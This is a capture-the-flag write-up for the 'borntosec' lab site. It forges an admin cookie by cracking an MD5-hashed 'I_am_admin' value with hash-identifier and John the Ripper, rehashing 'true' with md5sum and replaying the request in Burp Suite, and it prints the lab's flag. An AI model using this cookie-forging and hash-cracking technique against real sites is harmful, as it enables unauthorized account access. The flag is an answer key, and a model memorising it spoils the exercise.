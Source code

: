 # Cookie attack - session hijacking
- involves stealing a user's cookie to gain unauthorized access to their account within an application
- by using the stolen cookie, an attacker can impersonate the legitimate user
- https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies

<b>keywords</b>: cookies<br>
<b>attacked site</b>: http://borntosec.42/index.php

## Exploit
We intercept the GET request using <code>Burp Suite</code>:
``` http
GET /index.php HTTP/1.1
Host: borntosec.42
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://borntosec.42/
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
```
The cookie contains a hashed value. We use <code>hash-identifier</code> to determine the hashing algorithm used:
``` shell
└─$ hash-identifier                                  
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 68934a3e9455fa72420237eb05902327

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
We use <code>John</code> to crack the hash:
``` shell
└─$ john cookie_hash.txt --format=Raw-MD5         
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
false            (?)     
1g 0:00:00:02 DONE 3/3 (2024-08-07 19:41) 0.4464g/s 4784Kp/s 4784Kc/s 4784KC/s falyn..fadds
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
The stored cookie value is 'false', so we create a new MD5 hashed value for 'true':
``` shell
└─$ echo -n "true" | md5sum
b326b5062b2f0e69046810717534cb09  -
```
We send this new cookie value via <code>Burp Suite</code> Repeater to access the site. A pop-up window then reveals the flag:
```
Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```

## Flag
df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
